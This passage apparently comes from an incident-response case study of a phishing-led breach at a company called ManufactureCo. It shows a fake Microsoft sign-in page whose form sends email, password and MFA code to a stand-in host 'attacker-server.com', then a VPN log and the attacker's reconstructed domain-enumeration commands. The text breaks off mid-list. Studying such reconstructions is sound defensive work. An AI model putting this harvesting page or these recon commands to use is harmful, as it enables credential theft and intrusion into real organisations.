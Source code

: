 **Credential Harvesting Page**:
```html
<!-- Fake Microsoft login page -->
<!DOCTYPE html>
<html>
<head>
    <title>Microsoft Account | Sign In</title>
    <!-- Cloned Microsoft styling -->
</head>
<body>
    <div class="login-form">
        <img src="microsoft-logo.png">
        <h2>Sign in to your account</h2>
        <form action="https://attacker-server.com/harvest" method="POST">
            <input type="email" name="email" value="s.johnson@manufactureco.com" readonly>
            <input type="password" name="password" placeholder="Password" required>
            <input type="text" name="mfa" placeholder="Verification code (if enabled)">
            <button type="submit">Sign In</button>
        </form>
        <p>Can't access your account? <a href="#">Get help</a></p>
    </div>
    
    <script>
    // Redirect after credential capture
    setTimeout(function() {
        window.location = 'https://login.microsoftonline.com';
    }, 2000);
    </script>
</body>
</html>
```

**Victim**: Sarah Johnson, IT Director
- Clicked malicious link during busy workday
- Entered credentials on fake page
- No MFA to provide additional protection
- Credentials immediately used by attackers

### Phase 3: Initial Foothold (Day 15, 2 hours after phishing)

**VPN Access**:
```
[VPN Log Entry - September 14, 2024, 11:23 AM UTC]
User: s.johnson
Source IP: 185.143.223.47 (Suspicious - Romania)
Authentication: SUCCESS (username/password only, no MFA)
Connected to: corp-vpn-gateway-01
Access granted to: Corporate Network (full access)
```

**First Actions**:
```bash
# Attacker's initial commands (reconstructed from logs)

# Enumerate the environment
whoami /all
net user s.johnson /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# Discover systems
ping dc01.manufactureco.local
nslookup manufactureco.local

# Check privileges
```